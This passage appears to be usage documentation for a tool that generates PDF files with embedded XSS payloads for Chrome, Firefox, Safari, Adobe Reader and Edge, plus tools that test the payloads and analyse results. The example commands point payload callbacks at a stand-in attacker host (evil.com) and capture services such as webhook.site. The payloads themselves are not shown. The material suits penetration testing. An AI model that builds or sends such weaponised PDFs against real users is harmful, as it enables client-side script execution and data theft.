 ```bash
# Show help and available options
python3 pdf_xss_generator.py --help

# List available browsers and payload counts
python3 pdf_xss_generator.py --list-browsers

# Generate Chrome PDF files with custom URL (87 enhanced payloads)
python3 pdf_xss_generator.py -b chrome -u http://test.com

# Generate Firefox PDF files (28 enhanced payloads)
python3 pdf_xss_generator.py -b firefox --count 5

# Generate all browsers (184 total payloads)
python3 pdf_xss_generator.py -b all -u http://webhook.site/xyz
```

### Browser-Specific PDF Generation

```bash
# Generate individual Chrome PDF files (one payload per file)
python3 pdf_xss_generator.py -b chrome -u http://test.com

# Generate single file with all Firefox payloads (one payload per page)
python3 pdf_xss_generator.py -b firefox --single-file -u http://evil.com

# Generate Safari PDF files with custom PDF version
python3 pdf_xss_generator.py -b safari --pdf-version 1.3 -u http://test.com

# Generate Adobe Reader PDF files
python3 pdf_xss_generator.py -b adobe -u http://webhook.site/xyz

# Generate Microsoft Edge PDF files
python3 pdf_xss_generator.py -b edge -u http://collaborator.com
```

### Enhanced Testing and Analysis

```bash
# Test Chrome payloads with comprehensive analysis
python3 payload_tester.py -b chrome --report

# Test all browsers with detailed reporting (184 payloads)
python3 payload_tester.py -b all --report

# Analyze latest test results with all features
python3 results_analyzer.py --all

# Show improvement recommendations
python3 results_analyzer.py --recommendations

# Show category and technique analysis
python3 results_analyzer.py --categories --techniques --risks

# Export analysis results
python3 results_analyzer.py --export txt
```
